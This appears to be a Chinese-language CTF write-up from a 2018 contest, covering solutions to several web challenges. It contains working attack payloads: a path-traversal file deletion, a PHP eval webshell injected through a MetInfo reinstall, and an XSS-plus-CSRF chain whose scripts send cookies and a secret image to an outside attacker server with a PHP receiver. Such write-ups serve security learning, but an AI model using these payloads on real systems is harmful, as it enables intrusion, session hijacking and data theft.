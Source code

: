```yaml
---
title: 巅峰极客ctf
tags: ctf
abbrlink: 46785
date: 2018-07-23 20:33:53
---
```


## pentest

1. 御剑扫描

2. 经过目录扫描，发现`file/file.php`

   根据网页最后提示:

   ```
   DELETE FILE
   Sorry,no filename!
   ```

   可以猜测存在任意文件删除漏洞。

3. 首先我们删除`install.lock`

   ```
   http://c2a2868220484acaae0b962988dbecbbd872061666de4bc6.game.ichunqiu.com/file/file.php?file=...//config/install.lock
   ```

4. 重装metinfo，重装的时候数据库名填写 

   ```
   met#*/@eval($_GET[1]);/*
   ```

   数据库密码为`root`

5. 执行shell即可

   ```
   http://c2a2868220484acaae0b962988dbecbbd872061666de4bc6.game.ichunqiu.com/config/config_db.php?1=system(%27ls%27);
   ```

## mysqlonline

首先通过mysql查询，经过hex编码在输出，可以造成xss。

```
select 0x3c7363726970743e616c6572742831293c2f7363726970743e
```

结合CSRF即可打后台:

```
<html>
  <body>
  <script>history.pushState('', '', '/')</script>
    <form action="http://106.75.35.230:9001/runsql.php " method="POST">
      <input type="hidden" name="sql" value="select 0x30783c736372697074207372633d687474703a2f2f69702f7873732f312e6a733e3c2f7363726970743e" />
    </form>
    <script>document.forms[0].submit();</script>
  </body>
</html>
```

```
0x30783c736372697074207372633d687474703a2f2f69702f7873732f312e6a733e3c2f7363726970743e
=> 
<script src=http://ip/xss/1.js></script>
```

js的内容:

```
self.location = 'http://123.207.90.143/x.php?v=aaa'+btoa(document.cookie)+'aaa';
```

修改CSRF payload:

```html
<html>
  <body>
  <script>history.pushState('', '', '/')</script>
    <form action="http://127.0.0.1/runsql.php" method="POST">
      <input type="hidden" name="sql" value="select 0x30783c736372697074207372633d687474703a2f2f69702f7873732f312e6a733e3c2f7363726970743e" />
    </form>
    <script>document.forms[0].submit();</script>
  </body>
</html>
```

通过以上操作，可以发现后台有`admin_zzzz666.php`页面

但是admin_zzzz666.php并无flag，只有`./static/img/iamsecret_555.jpg `

修改payload,也就是vps上的js文件，利用canvas获取图片:

```
var love={ajax:function(){var a;try{a=new XMLHttpRequest()}catch(e){try{a=new ActiveXObject("Msxml2.XMLHTTP")}catch(e){try{a=new ActiveXObject("Microsoft.XMLHTTP")}catch(e){return false}}}return a},req:function(b,c,d,e){d=(d||"").toUpperCase();d=d||"GET";c=c||"";if(b){var a=this.ajax();a.open(d,b,true);if(d=="POST"){a.setRequestHeader("Content-type","application/x-www-form-urlencoded")}a.onreadystatechange=function(){if(a.readyState==4){if(e){e(a)}}};if((typeof c)=="object"){var f=[];for(var i in c){f.push(i+"="+encodeURIComponent(c[i]))}a.send(f.join("&"))}else{a.send(c||null)}}},get:function(a,b){this.req(a,"","GET",b)},post:function(a,b,c){this.req(a,b,"POST",c)}};

function getBase64(img){
    function getBase64Image(img,width,height) {//width、height调用时传入具体像素值，控制大小 ,不传则默认图像大小
        var canvas = document.createElement("canvas");
        canvas.width = width ? width : img.width;
        canvas.height = height ? height : img.height;

        var ctx = canvas.getContext("2d");
        ctx.drawImage(img, 0, 0, canvas.width, canvas.height);
        var dataURL = canvas.toDataURL();
        return dataURL;
    }
    var image = new Image();
    image.crossOrigin = '';
    image.src = img;
    return new Promise((resolve,reject)=>{
        image.onload =function (){
            resolve(getBase64Image(image));//将base64传给done上传处理
        }
    });
}

getBase64('http://127.0.0.1/static/img/iamsecret_555.jpg').then(base64 => {
    love.post(
      "http://ip/xss/x.php",
      "v="+base64,
      function(res){
        console.log(res);
      }
    );
}, err => {
    console.log(err)
})
```

vps上xss.php:

```
<?php
header('Access-Control-Allow-Origin: *');
file_put_contents('log.txt',$_POST['v']);
```

最后会获取到图片，当然这个过程中+会被转换为空格，所以后面还要转换回来。 

## Dedefun

```
参考网址：
https://paper.tuisec.win/detail/d1053143f127862
https://xz.aliyun.com/t/2469#toc-3
```

**主要用来找后台目录**

## A simple CMS

**利用缓存getshell**

慢慢分析吧。挖坑



